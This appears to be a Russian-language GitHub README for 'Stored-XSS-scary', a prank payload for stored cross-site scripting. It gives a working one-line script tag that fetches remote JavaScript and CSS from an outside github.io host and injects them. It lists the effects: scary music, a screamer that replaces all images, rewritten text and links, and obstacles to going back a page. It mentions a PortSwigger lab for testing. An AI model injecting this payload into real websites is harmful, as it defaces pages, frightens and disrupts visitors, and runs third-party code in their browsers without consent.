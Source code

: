# Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/918e3044-14b0-45c1-aa3c-c795c30caf6f

------------------------------------------

Полная версия (JS + CSS) [288 символов]:
> <script>var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Stored-XSS-scary/script.js';document.body.appendChild(r);</script>

* Страшная музыка.
* Постепенно изменяющийся цвет фона на красный.
* Прыгающий и мигающий текст.
* Частичные трудности при возвращении на предыдущую страницу.
* Замена всех изображений на скример.
* Замена текста из тегов "p", "h1", "a".
* Замена всех тегов "a" на "p".
* Скример на весь экран с криком в течение какого-то времени.
